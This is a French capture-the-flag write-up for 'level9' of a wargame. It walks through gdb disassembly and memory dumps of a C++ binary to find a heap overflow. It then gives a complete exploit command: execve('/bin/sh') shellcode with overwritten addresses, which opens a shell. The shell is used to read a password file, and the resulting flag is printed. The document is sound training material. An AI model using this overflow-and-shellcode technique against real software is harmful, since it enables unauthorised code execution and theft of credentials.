 Dans ce niveau l'excutable appelle des fonctions et des classes en c++ notamment avec `new()`

On va voir ou est stoke l'arg avec un break apres `N::setAnnotation(char*)` donc a `0x0804867c`
```sh
0x08048677 <+131>:	call   0x804870e <_ZN1N13setAnnotationEPc>
   0x0804867c <+136>:	mov    0x10(%esp),%eax
   0x08048680 <+140>:	mov    (%eax),%eax
   0x08048682 <+142>:	mov    (%eax),%edx
   0x08048684 <+144>:	mov    0x14(%esp),%eax
   0x08048688 <+148>:	mov    %eax,0x4(%esp)
   0x0804868c <+152>:	mov    0x10(%esp),%eax
   0x08048690 <+156>:	mov    %eax,(%esp)
   0x08048693 <+159>:	call   *%edx
   0x08048695 <+161>:	mov    -0x4(%ebp),%ebx
   0x08048698 <+164>:	leave  
   0x08048699 <+165>:	ret
```
En essayant avec des "AAAAAAAA" on voit ou ils sont stoke :
```sh
Breakpoint 1, 0x0804867c in main ()
(gdb) x/30wx $eax
0x804a00c:	0x41414141	0x41414141	0x00000000	0x00000000
0x804a01c:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a02c:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a03c:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a04c:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a05c:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a06c:	0x00000000	0x00000005	0x00000071	0x08048848
0x804a07c:	0x00000000	0x00000000
```

On voit donc qu'on va overflow au bout de 108 char

On va chercher a injecter un shellcode a la premiere adresse ou c'est stocke `0x804a00c + 4 = 134520848 = 0x0804A010`

Le shellcode : `execve("/bin/sh")` = `\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80`

Et avec l'overflow on va placer l'adresse du debut d'$eax : `0x804a00c`

On va donc passer le script suivant ("A" * 76 car : `112(total $eax) - 4(premiere adresse) - 28(shellcode) - 4(deuxieme adresse) = 76`) :

`./level9 $(python -c 'print "\x10\xa0\x04\x08" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "A" * 76 + "\x0c\xa0\04\x08"')`

Quand le programme s'execute un shell s'ouvre on peut donc utiliser `cat /home/user/bonus0/.pass` et le flag sort :

`f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728`
